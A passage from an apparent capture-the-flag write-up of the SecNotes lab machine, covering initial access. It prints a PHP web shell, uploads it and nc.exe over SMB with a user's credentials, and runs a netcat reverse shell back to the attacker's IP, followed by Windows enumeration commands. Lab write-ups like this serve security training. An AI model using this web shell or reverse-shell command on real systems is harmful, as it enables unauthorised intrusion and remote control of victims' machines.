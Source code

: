 Accessing the machine is my next goal, so I'm going to upload a **PHP web shell** that will allow me to execute command first and then with the help of `nc.exe` I will try to get a **Reverse Shell**. My first step is to upload `nc.exe` as a shared resource with `smbclient` and then with the web shell I just need to execute the right command to send the **Rerverse Shell**, finally I'm going to catch with `nc` the incoming connection on port **443**. Finally I could access the machine and I can start enumerating the system, I find no special privileges and there are only two accounts in the system (**Administrator** and **tyler**) besides the typical ones in a **Windows** environment. In the Desktop directory of **tyler's** account I find and can see the contents of the first flag, plus several very suspicious **shortcuts**.

> **Attacker Machine**:

```bash
nvim pwn3d.php
cat pwn3d.php
```

> **pwn3d.php**:

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

```bash
# http://10.10.10.97:8808/pwn3d.php?cmd=whoami

locate nc.exe | grep -v al3j0
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
smbclient //10.10.10.97/new-site -U 'tyler%92...*&'
  put pwn3d.php
  put nc.exe
rlwrap -cAr nc -nlvp 443

# http://10.10.10.97:8808/pwn3d.php?cmd=nc.exe -e cmd 10.10.14.9 443
```

> **Victime Machine**:

```cmd
whoami
hostname
whoami /priv
whoami /all
net user
```

<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
